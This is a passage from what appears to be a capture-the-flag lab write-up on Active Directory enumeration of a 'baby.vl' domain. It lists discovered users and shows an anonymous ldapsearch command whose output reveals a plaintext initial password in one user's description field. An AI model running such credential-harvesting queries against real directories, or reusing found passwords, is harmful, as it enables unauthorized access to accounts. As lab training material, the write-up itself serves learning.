 ```

# numResponses: 13
# numEntries: 9
# numReferences: 3

```

**Users Discovered:**

- **dev OU:** `Jacqueline.Barnett`, `Ashley.Webb`, `Hugh.George`, `Leonard.Dyer`.
- **it OU:** `Connor.Wilkinson`, `Joseph.Hughes`, `Kerry.Wilson`, `Teresa.Bell`.

---

# Phase 3: Discovering Credentials in User Descriptions

Let's check the description fields of all users, as these sometimes contain sensitive information.

```
ldapsearch -x -H ldap://10.10.105.113 -b "DC=baby,DC=vl" "(objectClass=user)" description

# extended LDIF
#
# LDAPv3
# base <DC=baby,DC=vl> with scope subtree
# filter: (objectClass=user)
# requesting: description
#

# Guest, Users, baby.vl
dn: CN=Guest,CN=Users,DC=baby,DC=vl
description: Built-in account for guest access to the computer/domain

# Jacqueline Barnett, dev, baby.vl
dn: CN=Jacqueline Barnett,OU=dev,DC=baby,DC=vl

# Ashley Webb, dev, baby.vl
dn: CN=Ashley Webb,OU=dev,DC=baby,DC=vl

# Hugh George, dev, baby.vl
dn: CN=Hugh George,OU=dev,DC=baby,DC=vl

# Leonard Dyer, dev, baby.vl
dn: CN=Leonard Dyer,OU=dev,DC=baby,DC=vl

# Connor Wilkinson, it, baby.vl
dn: CN=Connor Wilkinson,OU=it,DC=baby,DC=vl

# Joseph Hughes, it, baby.vl
dn: CN=Joseph Hughes,OU=it,DC=baby,DC=vl

# Kerry Wilson, it, baby.vl
dn: CN=Kerry Wilson,OU=it,DC=baby,DC=vl

# Teresa Bell, it, baby.vl
dn: CN=Teresa Bell,OU=it,DC=baby,DC=vl
description: Set initial password to BabyStart123!

# Caroline Robinson, it, baby.vl
dn: CN=Caroline Robinson,OU=it,DC=baby,DC=vl

# search reference
ref: ldap://ForestDnsZones.baby.vl/DC=ForestDnsZones,DC=baby,DC=vl

```